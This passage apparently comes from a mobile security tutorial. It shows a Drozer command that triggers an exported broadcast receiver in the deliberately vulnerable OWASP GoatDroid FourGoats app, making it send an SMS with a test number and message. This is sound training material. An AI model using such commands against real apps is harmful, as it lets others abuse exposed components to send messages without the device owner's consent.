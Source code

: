 To call the broadcast receiver, we need to send few parameters which can be found in decompiled jar version as explained in dex2jar chapter.

![deploy using travis](/assets/img/posts/Mobile_Security/22.png){:class="img-fluid"}

Following command triggers Broadcast receivers: 

```yml
$ run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver --extra string phoneNumber 1234 --extra string message "Hey!"
```

![deploy using travis](/assets/img/posts/Mobile_Security/23.png){:class="img-fluid"}
